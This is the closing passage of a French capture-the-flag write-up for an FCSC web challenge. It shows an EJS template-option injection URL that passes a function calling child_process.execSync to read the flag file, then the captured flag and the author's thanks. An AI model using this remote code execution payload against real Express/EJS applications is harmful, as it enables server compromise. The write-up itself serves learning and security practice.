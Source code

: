 Nous avons redirigé le résultat de notre requête et nous pouvons ainsi lire le fichier du flag.

```
https://peculiar-caterpillar.france-cybersecurity-challenge.fr/?client=true&settings[view+options][escape]=function(d){ return process.mainModule.require('child_process').execSync('cat flag-a49d3e9518ee659fa932482818e7eeeb.txt');}
```
![](https://cdn.discordapp.com/attachments/858439417743540225/1101686109026660362/image.png)

**Flag:** `FCSC{232448f3783105b36ab9d5f90754417a4f17931b4bdeeb6f301af2db0088cef6}`

## Conclusion

J'ai appris énormément de chose durant ce challenge, je suis vraiment fier d'avoir trouver ma vulnérabilité en auditant de font en comble le code source d'EJS.

Et pour conclure cela, contrôlez vos input.

## Remerciement
Je tenais à remercier l'auteur du challenge **Bitk** j'ai énormément apprécié le challenge et la plupart de ses challenges par ailleurs. J'ai trouvé ce CTF très bénéfique pour mon apprentissage alors merci aux organisateurs et aux créateurs des challenges.
 
